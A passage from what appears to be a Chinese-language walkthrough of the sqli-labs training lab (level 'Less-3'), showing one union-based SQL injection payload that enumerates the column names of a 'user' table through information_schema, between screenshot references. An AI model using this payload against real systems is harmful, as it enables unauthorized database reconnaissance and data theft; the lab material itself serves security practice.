 ![Less-3_7](./img/Less-3_7.PNG)



+ 注入以下语句

~~~ shell
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='user'--+
~~~

![Less-3_8](./img/Less-3_8.PNG)
